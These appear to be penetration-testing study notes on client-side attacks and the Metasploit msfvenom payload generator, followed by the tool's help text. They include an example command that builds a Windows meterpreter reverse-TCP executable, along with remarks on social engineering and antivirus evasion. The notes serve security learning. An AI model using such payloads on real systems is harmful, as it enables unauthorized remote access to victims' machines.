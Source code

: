 [[msfvenom]]
- Client side attacks
	- A client side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed
	- Client side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs)
	- Client side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system
	- Given than this attack vector involves the transfer and storage of a malicious payload on the client's systems (disk), attackers need to be cognisant of AV detection
- Msfvenom
	- msfvenom is a command line utility that can be used to generate and encode msf payloads for various operating systems as well as web servers
	- msfvenom is a combination of two utilities, namely msfpayload and msfencode
	- We can use msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed it will connect back to our payload handler and provide us with remote access to the target system.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom  
Error: No options
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
```